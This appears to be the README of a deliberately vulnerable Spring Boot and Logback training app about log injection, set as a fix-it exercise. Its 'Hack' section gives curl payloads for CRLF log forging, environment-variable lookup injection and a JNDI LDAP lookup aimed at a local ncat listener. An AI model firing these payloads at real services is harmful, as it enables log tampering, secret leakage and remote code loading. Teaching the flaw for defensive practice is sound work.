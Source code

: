 # Log Injection with Spring Boot and Logback

## Usage

- Run

```
./gradlew bootRun
```

- Request

```
curl http://localhost:8080/\?name\=Frodon
```

## Hack

### Using CRLF injection

```
curl http://localhost:8080/\?name\=Marty%0d%0a1985-10-30%2021%3A59%3A01.108%20DEBUG%20128537%20---%20%5Bnio-8080-exec-1%5D%20net.example.logging.HelloController%20%20%20%20%20%20%3A%20You%20have%20been%20pwed%0A
```

### Using date lookup

Date lookup ``${date:yyyyMMdd-HHmmss}``:

```
curl http://localhost:8080/\?name\=%24%7Bdate%3AyyyyMMdd-HHmmss%7D
```

### Using env lookup

Env lookup ``${env:USER}``:

```
curl http://localhost:8080/\?name\=%24%7Benv%3AUSER%7D
```

### Using JNDI Injection

- Run a listener

```
ncat -v -l -p 5000
```

- JNDI LDAP lookup: ``Hello ${jndi:ldap://localhost:5000}%``

```
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A5000%7D
```

## Fix

Try to fix this app!
Don't disable JNDI Lookup, this could be usefull. 
